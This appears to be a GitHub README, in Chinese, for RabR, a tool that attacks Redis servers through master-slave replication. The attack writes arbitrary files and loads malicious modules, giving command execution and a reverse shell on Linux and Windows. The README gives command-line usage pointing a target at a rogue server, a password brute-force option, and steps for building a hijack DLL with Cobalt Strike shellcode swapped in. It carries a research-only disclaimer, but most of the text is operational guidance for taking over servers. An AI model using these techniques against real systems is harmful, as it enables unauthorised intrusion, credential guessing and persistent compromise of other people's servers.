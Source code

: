 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的Windows恶意模块：exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.dll 默认导入的Windows Redis模块
│  exp.so 默认导入的Linux Redis模块
│  pwd.txt 爆破字典
│  rd.exe 用于保存Redis数据的程序
│  README.md
│  redis-attack.py 攻击主程序
```

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll used to hijack redis, default dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        Redis Modules(win) to load, default exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        Redis Modules(linux) to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](phpto/image-20210708212712502.png)
![image-20210708190457889](phpto/image-20210708190457889.png)
![image-20210708213302932](phpto/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击 。  

## 时间线  
```  
2021.07.03 发布v0.5
2021.07.08 发布v0.6,增加了Windows模块攻击
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR  
